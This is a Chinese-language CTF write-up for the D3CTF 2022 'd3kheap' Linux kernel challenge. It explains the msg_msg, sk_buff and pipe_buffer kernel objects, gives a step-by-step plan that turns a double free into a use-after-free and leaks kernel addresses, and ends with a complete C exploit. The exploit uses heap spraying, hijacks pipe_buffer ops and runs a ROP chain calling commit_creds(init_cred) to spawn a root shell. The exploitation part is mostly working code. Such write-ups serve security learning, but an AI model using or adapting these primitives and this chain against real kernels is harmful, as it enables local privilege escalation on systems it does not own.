

# D3CTF 2022 D3Kheap

这题属实抽象，mod模块啥都没给，就给了申请完堆块两次 free 的机会，那么我们就需要控制许多内核结构体来完成对 double free 到 uaf 的转化，随后逐步劫持结构体的控制流

## 背景知识

我们都学过操作系统，那就绕不开通信的问题，无论是进程间通信，还是网络编程，linux 都给了我们很多函数，比如说消息队列msg_queue，套接字socket，管道pipe等等，那么既然是进程间通信，必须会使用到内核空间，因此也一定申请内核堆块，创建结构体，因此需要从这些结构体，完成对 double free 的利用。

### 消息队列 msg_queue

有如下函数：msgget，msgsnd，msgrcv

在使用函数 msgget 创建一个消息队列时，会创建一个 msg_queue 结构体，如下

```c
struct msg_queue {//msg队列结构体
	struct kern_ipc_perm q_perm; //每个ipc 相关结构体都要有q_perm
	time64_t q_stime;		/* last msgsnd time */
	time64_t q_rtime;		/* last msgrcv time */
	time64_t q_ctime;		/* last change time */
	unsigned long q_cbytes;		/* 当前消息队列中的字节数 */
	unsigned long q_qnum;		/* 当前消息队列中的消息数 */
	unsigned long q_qbytes;		/* 消息队列中允许的最大字节数 */
	struct pid *q_lspid;		/* pid of last msgsnd */
	struct pid *q_lrpid;		/* last receive pid */

	struct list_head q_messages;/* 消息队列 */
	struct list_head q_receivers;
	struct list_head q_senders;
} __randomize_layout;
```

使用 msgsnd 向该消息发送一段消息时，会创建一个 msg_msg 结构体，如下

```c
struct msg_msg {//主消息段头部
	struct list_head m_list; //消息双向链表指针
	long m_type;
	size_t m_ts;		/* 消息大小 */
	struct msg_msgseg *next; //指向消息第二段
	void *security;
	/* 后面接着消息的文本 */
};

struct msg_msgseg {//子消息段头部
	struct msg_msgseg *next; //指向下一段的指针，最多三段
	/* 后面接着消息第二/三段的文本 */
};
```

```c
static long do_msg_fill(void __user *dest, struct msg_msg *msg, size_t bufsz)
{
	struct msgbuf __user *msgp = dest;
	size_t msgsz;
	if (put_user(msg->m_type, &msgp->mtype))
		return -EFAULT;
	msgsz = (bufsz > msg->m_ts) ? msg->m_ts : bufsz; /* 将m_ts和用户空间之间小的数作为参数 */
	if (store_msg(msgp->mtext, msg, msgsz)) /* 一般size都是 msg->m_ts*/
		return -EFAULT;
	return msgsz;
}

int store_msg(void __user *dest, struct msg_msg *msg, size_t len)
{
	size_t alen;
	struct msg_msgseg *seg;
	alen = min(len, DATALEN_MSG); /* DATALEN_MSG 一般是 4048，当msg块小于这个大小时，并且m_ts可控*/
	if (copy_to_user(dest, msg + 1, alen)) /* 拷贝数据时就会发生越界拷贝*/
		return -1;
	for (seg = msg->next; seg != NULL; seg = seg->next) {
		len -= alen;
		dest = (char __user *)dest + alen;
		alen = min(len, DATALEN_SEG);
		if (copy_to_user(dest, seg + 1, alen))
			return -1;
	}
	return 0;
}
```

我们注意到 q_messages 和 m_list 的两个指针，这两个指针实际上会互相指向形成一个双向链表，而当消息长度 大于 0x1000 时会启用 next 指针指向一个 msg_msgseg 结构体来存放多于的数据，再次发送消息便又会创建 msg_msg 结构体，使用 m_list 来互相链接，用 msg_queue 作为队列头形成一个消息队列

> 这里 m_ts 表示消息的长度，如果 m_ts 改大 而 next 为空时，便会发生越界读取数据，而当 next 存在指针时，便会实现任意地址读取

可以看到 结构体的大小不是固定的，因此可以达到一个任意大小堆块申请的效果

```c
#define POISON_POINTER_DELTA 0
#define LIST_POISON1  ((void *) 0x100 + POISON_POINTER_DELTA)
#define LIST_POISON2  ((void *) 0x122 + POISON_POINTER_DELTA)

static inline void list_del(struct list_head *entry)
{
	__list_del_entry(entry);
	entry->next = LIST_POISON1;
	entry->prev = LIST_POISON2;
}

static inline void __list_del_entry(struct list_head *entry)
{
	if (!__list_del_entry_valid(entry))
		return;
	__list_del(entry->prev, entry->next);
}

static inline bool __list_del_entry_valid(struct list_head *entry)
{
	return true;
}

static inline void __list_del(struct list_head * prev, struct list_head * next)
{
	next->prev = prev;
	WRITE_ONCE(prev->next, next);
}
```

```c
bool __list_del_entry_valid(struct list_head *entry)
{
	struct list_head *prev, *next;

	prev = entry->prev;
	next = entry->next;

	if (CHECK_DATA_CORRUPTION(next == LIST_POISON1,
			"list_del corruption, %px->next is LIST_POISON1 (%px)\n",
			entry, LIST_POISON1) ||
	    CHECK_DATA_CORRUPTION(prev == LIST_POISON2,
			"list_del corruption, %px->prev is LIST_POISON2 (%px)\n",
			entry, LIST_POISON2) ||
	    CHECK_DATA_CORRUPTION(prev->next != entry,
			"list_del corruption. prev->next should be %px, but was %px. (prev=%px)\n",
			entry, prev->next, prev) ||
	    CHECK_DATA_CORRUPTION(next->prev != entry,
			"list_del corruption. next->prev should be %px, but was %px. (next=%px)\n",
			entry, next->prev, next))
		return false;

	return true;

}
```



### 套接字 

可以使用 socketpair 创建一个 socket 会返回一对 fd ，其结构体无所谓，但是向其中写入数据时会申请 object ，其中 object 可以是 大于 320 的任意大小，当然这个 320 并不在头部，不然也就不好控了

https://blog.csdn.net/wangquan1992/article/details/112572572

从另一端读取 socket 就会释放掉该堆块

### 管道pipe

使用 pipe 创建一对 pipe 会返回一对 fd ，这里同样是对 pipe_buffer 进行说明，这里比较特别，内核总会用掉许多 pipe_buffer 使其刚好申请 0x400 大小的堆块

```c
struct pipe_buffer {
	struct page *page;		/*读写pipe时, 实际上是读写page地址*/
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;		/*函数表*/
	unsigned int flags;
	unsigned long private;
};

struct pipe_buf_operations {
	int (*confirm)(struct pipe_inode_info *, struct pipe_buffer *);	
	void (*release)(struct pipe_inode_info *, struct pipe_buffer *);/*释放 pipe buffer*/
	bool (*try_steal)(struct pipe_inode_info *, struct pipe_buffer *);
	bool (*get)(struct pipe_inode_info *, struct pipe_buffer *);
};
```

> 其 ops 是一个函数表指针，可以使用它泄露地址，也可以用其来劫持控制流

从另一端读取 pipe 就会释放掉该堆块

## 利用思路

1. 首先打开 socket 和 msg 等后面需要的结构体；
1. 使用 模块功能 申请一个大小为 1024 的堆块；
1. 不断使用 msgsnd 创建消息，此时控制大小便会创建相应大小的堆块，在过程中使用 模块功能 释放掉该 1024 大小的堆块，此时 msg_msg 就有可能分配到 该位置；
1. 使用 模块功能 释放掉该 1024 大小的堆块，此时某一个 msg_queue 结构体被破坏，msg_msg 虽然被释放但是依旧存在在这个队列里；
1. 不断向 socket 写数据来堆喷到 msg_msg ，此时已经可以控制 msg_msg 结构体，改大msg_msg 的 size；
1. 通过 特殊字段 flag 的 msgrcv 来查看 msg_queue 的队列消息是否存在，不存在则返回 -1 ，此时我们的msg_msg 结构体已经可控，因此改乱它使其返回 -1 从而来找出已经可控的 msg_msg 结构体；
1. 接受 socket 另一端释放掉堆块，并再次使用 socket 写数据来申请堆块去修改 msg_msg 结构体，此时改大其 size 位，让其 msg_msg 能够越界泄露出数据；
1. 通过 特殊字段 flag 的 msgrcv 来越界泄露出 堆地址，此时已经知道哪个 msg_queue 出问题，因此可以直接定位到该 msg_msg 结构，因为泄露出来的是相邻堆块的指针，并且其 prev 指针指向了 队列的前一个消息；
1. 重复 7、8 步，而此时 msg_msg 结构体的 next 因为已经泄露出了 堆地址，所以是可控的，再次泄露出 可控 msg_msg 堆块的地址（这里简单计算就可以得到）；
1. 使用 msgrcv 把数据接受掉从而释放该 msg_msg，同时 socket 的某一个 object 已经被释放掉了；
1. 堆喷 pipe 结构体，此时 socket 的某一个 object 已经被分配到了 pipe_buffer 结构体中，因此使用 socket 另一端读的时候便会读到 pipe_buffer 结构体的内容，pipe_buffer 有个 内核指针，因此通过其计算出 内核基地址，此时该 object 已经被 socket  释放；
1. 再次使用 socket 写数据申请堆块到 pipe_buffer，并劫持掉 ops 函数表，最后关闭 pipe 执行 栈迁移 并 rop。

exp 按照官方的改了改（指翻译成中文），有机会完全自己做一下

```c
#define _GNU_SOURCE
#include <err.h>
#include <errno.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sched.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/ipc.h>
#include <sys/msg.h>
#include <sys/ioctl.h>
#include <sys/socket.h>
#include <sys/syscall.h>

#define MSG_TAG 0x41414141
#define PRIMARY_MSG_TYPE 1
#define SECONDARY_MSG_TYPE 2
#define VICTIM_MSG_TYPE 0x11037

#define SK_BUFF_NUM 0x80
#define PIPE_NUM 0x100
#define SOCKET_NUM 0x10
#define MSG_QUEUE_NUM 0x1000

#define PRIMARY_MSG_SIZE 0x60
#define SECONDARY_MSG_SIZE 0x400

#define COMMIT_CREDS 0xffffffff810D25C0
#define POP_RDI_RET 0xffffffff810938f0
#define INIT_CRED 0xffffffff82c6d580
#define ANON_PIPE_BUF_OPS 0xffffffff8203fe40
#define PUSH_RSI_POP_RSP_POP_4VAL_RET 0xffffffff812dbede

// 此 gadget 是在 __mmu_interval_notifier_insert 附近错出的一个 gadget

#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff81c00ff0


size_t kernel_offset, kernel_base = 0xffffffff81000000;
size_t user_cs, user_ss, user_rflags, user_sp;
int fd = 0;

/*
 * object 大小必会加上 320，因此需要申请 704 的大小
 * 1024 - 320 = 704
 */
char fake_secondary_msg[704];

typedef struct list_head{
    uint64_t    next;
    uint64_t    prev;
}list_head;

typedef struct msg_msg{
    list_head   m_list;
    uint64_t    m_type;
    uint64_t    m_ts;
    uint64_t    next;
    uint64_t    security;
}msg_msg;

typedef struct msg_msgseg{
    uint64_t    next;
}msg_msgseg;

struct {
    long mtype;
    char mtext[PRIMARY_MSG_SIZE - sizeof(struct msg_msg)];
}primary_msg;

struct 
{
    long mtype;
    char mtext[SECONDARY_MSG_SIZE - sizeof(struct msg_msg)];
}secondary_msg;

struct
{
    long mtype;
    char mtext[0x1000 - sizeof(struct msg_msg) + 0x1000 - sizeof(struct msg_msgseg)];
} oob_msg;

typedef struct pipe_buffer
{
    uint64_t    page;
    uint32_t    offset, len;
    uint64_t    ops;
    uint32_t    flags;
    uint32_t    padding;
    uint64_t    private;
}pipe_buffer;

typedef struct pipe_buf_operations
{
    uint64_t    confirm;
    uint64_t    release;
    uint64_t    try_steal;
    uint64_t    get;
}pipe_buf_operations;

void info(char *s ){
    printf("\033[34m\033[1m[Info] %s \033[0m\n", s);
}

void error(char *s){
    printf("\033[31m\033[1m[Error] %s\n\033[0m" , s);
    exit(1);
}

void lg(char *s , size_t address){
    printf("\033[32m\033[1m[Data] %s : \033[0m\033[35m\033[1m%#lx \033[0m\n", s, address);
}

void save_status(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    info("status saved!");
}

void shell(){
    sleep(1);
    if (getuid()){
        error("Failed to get root");
        exit(0);
    }
    info("Get root!");
    execl("/bin/sh","sh",NULL);
}

void add( ){
    ioctl(fd , 0x1234);
}

void delete( ){
    ioctl(fd , 0xDEAD);
}

void buildMsg(
    msg_msg *msg, 
    uint64_t m_list_next,
    uint64_t m_list_prev, 
    uint64_t m_type, 
    uint64_t m_ts, 
    uint64_t next, 
    uint64_t security
    ){
    msg->m_list.next = m_list_next;
    msg->m_list.prev = m_list_prev;
    msg->m_type = m_type;
    msg->m_ts = m_ts;
    msg->next = next;
    msg->security = security;
}

int writeMsg(int msqid, void *msgp, size_t msgsz, long msgtyp){
    *(long*)msgp = msgtyp;
    return msgsnd(msqid, msgp, msgsz - sizeof(long), 0);
}

int readMsg(int msqid, void *msgp, size_t msgsz, long msgtyp){
    return msgrcv(msqid, msgp, msgsz - sizeof(long), msgtyp, 0);
}

int peekMsg(int msqid, void *msgp, size_t msgsz, long msgtyp){
    return msgrcv(msqid, msgp, msgsz - sizeof(long), msgtyp, MSG_COPY | IPC_NOWAIT);
}
// 读取而不释放

int spraySkBuff(int sk_socket[SOCKET_NUM][2], void *buf, size_t size){
    for (int i = 0; i < SOCKET_NUM; i++)
        for (int j = 0; j < SK_BUFF_NUM; j++){
            if (write(sk_socket[i][0], buf, size) < 0)
                return -1;
        }
    return 0;
}
// 控制大堆块

int freeSkBuff(int sk_socket[SOCKET_NUM][2], void *buf, size_t size){
    for (int i = 0; i < SOCKET_NUM; i++)
        for (int j = 0; j < SK_BUFF_NUM; j++)
            if (read(sk_socket[i][1], buf, size) < 0)
                return -1;
    return 0;
}

void main(){

    msg_msg  *nearby_msg ,*nearby_msg_prim ;
    pipe_buffer *pipe_buf_ptr;
    uint64_t victim_addr ;
    uint64_t *rop ;
    cpu_set_t cpu_set;
    pipe_buf_operations *ops_ptr;
    

    int pipe_fd[PIPE_NUM][2];
    int sk_sockets[SOCKET_NUM][2];
    int msqid[MSG_QUEUE_NUM];

    int victim_qid = -1;
    // __sock_create

    save_status();

    CPU_ZERO(&cpu_set);
    CPU_SET(0, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    for (int i = 0;i<SOCKET_NUM ;i++)
        socketpair(AF_UNIX , SOCK_STREAM , 0 , sk_sockets[i]);

    // 创建后续利用需要的 sk 结构体

    fd = open("/dev/d3kheap" , O_RDONLY);

    for (int i = 0; i < MSG_QUEUE_NUM; i++)
        msqid[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);

    // 创建大量 msg_queue 结构体，后面会和 msg_msg 链起来

    memset(&primary_msg, 0, sizeof(primary_msg));
    memset(&secondary_msg, 0, sizeof(secondary_msg));

    add();

    for (int i = 0; i< MSG_QUEUE_NUM; i++){

        *(int *)&primary_msg.mtext[0] = MSG_TAG;
        *(int *)&primary_msg.mtext[4] = i;
        if (writeMsg(msqid[i] , &primary_msg , sizeof(primary_msg) ,PRIMARY_MSG_TYPE )<0)
            error("send primary msg error");

        *(int *)&secondary_msg.mtext[0] = MSG_TAG;
        *(int *)&secondary_msg.mtext[4] = i;
        if (writeMsg(msqid[i] , &secondary_msg , sizeof(secondary_msg) ,SECONDARY_MSG_TYPE )<0)
            error("send secondary msg error");

        if (i == 1024)
            delete();
    }

    info("mod_buf_pointer <--> msg_msg");
    // msgsnd 发送大量信息，此时会申请 msg_msg 结构体
    // 其中第二次申请的 msg_msg 大小为 1024 ，很大可能会申请到中间 模块 释放的堆块

    delete();

    // 此时让 secondary msg 释放进入 slub-1024

    buildMsg(
        (msg_msg *)fake_secondary_msg,
        0,0,0,
        SECONDARY_MSG_SIZE ,
        0,0
    );

    // 创建 fake msg_msg, 破坏 msg_msg 用于找出 msg_msg

    if (spraySkBuff(sk_sockets , fake_secondary_msg,sizeof(fake_secondary_msg))<0)
        error("failed to spray sk_buff!");

    info("msg_msg <--> sk_buf");
    // 通过 sk 结构体申请大量 1024 的结构体，此时有极大可能申请到刚刚释放出去的堆块
    // 此时某一块 msg_msg 和 sk_buf 为同一个指针
    // 并向其中放置了 fake msg_msg 

    for (int i = 0; i < MSG_QUEUE_NUM; i++)
    {
        if (peekMsg(msqid[i], &secondary_msg, sizeof(secondary_msg), 1) < 0)
        {
            victim_qid = i;
            lg("victim_qid" , victim_qid);
        }
    }
    // 通过 msgrcv 找出已经被破坏掉的 msg_msg 结构体

    if (freeSkBuff(sk_sockets , fake_secondary_msg , sizeof(fake_secondary_msg)) < 0)
        error("failed to release sk_buff!");
    // 清空 sk_buf 

    buildMsg(
        (msg_msg *)fake_secondary_msg,
        0,0,
        VICTIM_MSG_TYPE,
        0x1000 - sizeof(struct msg_msg) ,
        0,0
    );

    // 修改 fake msg_msg 的 type 并改大 size 从而可以泄露出 堆地址

    if (spraySkBuff(sk_sockets , fake_secondary_msg,sizeof(fake_secondary_msg)) < 0)
        error("failed to spray sk_buff!");

    info("msg_msg <--> sk_buf");

    // 再次堆喷将 sk 的 object 和 msg_msg 连接
    // 此时再次修改 msg_msg

    if (peekMsg(msqid[victim_qid] , &oob_msg , sizeof(oob_msg) , 1 ) < 0)
        error("failed to read victim msg!");

    if (*(int *)&oob_msg.mtext[SECONDARY_MSG_SIZE] != MSG_TAG)
        error("failed to rehit the UAF object!");

    nearby_msg = (msg_msg *) &oob_msg.mtext[SECONDARY_MSG_SIZE - sizeof(msg_msg)];

    // 找出泄露出的下一个结构体，从而泄露出 msg_queue

    lg("msg_queue_addr" , nearby_msg->m_list.prev);

    if (freeSkBuff( sk_sockets,fake_secondary_msg , sizeof(fake_secondary_msg) ) < 0)
        error("failed to release sk_buff!");

    buildMsg(
        (msg_msg *)fake_secondary_msg,
        0,0,
        VICTIM_MSG_TYPE,
        sizeof(oob_msg.mtext) ,
        nearby_msg->m_list.prev - 8,
        0
    );

    // 将指针指向 msg_queue 从而泄露出当前 msg_msg 的指针

    if (spraySkBuff(sk_sockets , fake_secondary_msg,sizeof(fake_secondary_msg)) < 0)
        error("failed to spray sk_buff!");

    // 再次堆喷 sk object 修改 msgmsg 

    if (peekMsg(msqid[victim_qid] , &oob_msg , sizeof(oob_msg) , 1 ) < 0)
        error("failed to read victim msg!");

    if (*(int *)&oob_msg.mtext[0x1000] != MSG_TAG)
        error("failed to rehit the UAF object!");

    nearby_msg_prim = (msg_msg *)&oob_msg.mtext[0x1000 - sizeof(msg_msg)];
    victim_addr = nearby_msg_prim->m_list.next - 0x400;

    lg("victim_addr" ,victim_addr);
    // 读出 msgmsg 的指向泄露出 msgmsg 的地址

    if (freeSkBuff(sk_sockets, fake_secondary_msg, sizeof(fake_secondary_msg)) < 0)
        error("failed to release sk_buff!");

    memset(fake_secondary_msg , 0 , sizeof(fake_secondary_msg));
    buildMsg(
        (msg_msg *)fake_secondary_msg,
        victim_addr + 0x800 , victim_addr + 0x800,
        VICTIM_MSG_TYPE,
        SECONDARY_MSG_SIZE - sizeof( msg_msg),
        0,0
    );

    if (spraySkBuff(sk_sockets , fake_secondary_msg,sizeof(fake_secondary_msg)) < 0)
        error("failed to spray sk_buff!");

    // 再次伪造 msgmsg 结构体

    if (readMsg(msqid[victim_qid], &secondary_msg, sizeof(secondary_msg), VICTIM_MSG_TYPE) < 0)
        error("failed to receive secondary msg!");

    // 从伪造 msgmsg 结构体读取，此时会释放掉 msgmsg 结构体

    for (int i = 0; i < PIPE_NUM; i++)
    {
        if (pipe(pipe_fd[i]) < 0)
            error("failed to create pipe!");

        if (write(pipe_fd[i][1], "deadbeef", 8) < 0)
            error("failed to write the pipe!");
    }

    info("sk_buf <--> pipe_buf");

    // 堆喷 pipe 结构体，此时 sk_buf 能控制 pipe_buf

    pipe_buf_ptr = (pipe_buffer *) &fake_secondary_msg;
    // 将 buffer 转化为 pipe_buffer 结构体，从而找到内核指针

    for (int i = 0; i < SOCKET_NUM; i++){
        for (int j = 0; j < SK_BUFF_NUM; j++){
            if (read(sk_sockets[i][1], &fake_secondary_msg, sizeof(fake_secondary_msg)) < 0)
                error("failed to release sk_buff!");
            if (pipe_buf_ptr->ops > 0xffffffff81000000){
                kernel_offset = pipe_buf_ptr->ops - ANON_PIPE_BUF_OPS;
                kernel_base = 0xffffffff81000000 + kernel_offset;
            }
        }
    }

    // 从众多的 sk_buf 中找到 pipe_buf

    // 接下来就是劫持控制流了，劫持 pipe_buffer->ops->release
    // 最后是 rop 链的构造环节

    pipe_buf_ptr = (pipe_buffer *) &fake_secondary_msg;

    pipe_buf_ptr->page = *(uint64_t *)"114514";
    pipe_buf_ptr->ops = victim_addr + 0x100;


    ops_ptr = (pipe_buf_operations *) &fake_secondary_msg[0x100];
    ops_ptr->release = PUSH_RSI_POP_RSP_POP_4VAL_RET + kernel_offset;

    rop = (uint64_t *) &fake_secondary_msg[0x20];
    int i = 0;

    rop[i++] = POP_RDI_RET + kernel_offset;
    rop[i++] = INIT_CRED + kernel_offset;
    rop[i++] = COMMIT_CREDS + kernel_offset;

    rop[i++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + kernel_offset + 22;
    rop[i++] = 0;
    rop[i++] = 0;
    rop[i++] = (uint64_t)shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    lg("PUSH_RSI_POP_RSP_POP_4VAL_RET",PUSH_RSI_POP_RSP_POP_4VAL_RET + kernel_offset);

    if (spraySkBuff(sk_sockets, fake_secondary_msg, sizeof(fake_secondary_msg)) < 0)
        error("failed to spray sk_buff!");

    // 往 sk_buf object 中写 fake_pipe_buffer 结构体从而控制某一 pipe_buffer

    getchar();

    for (int i = 0; i < PIPE_NUM; i++)
    {
        close(pipe_fd[i][0]);
        close(pipe_fd[i][1]);
    }

}
```

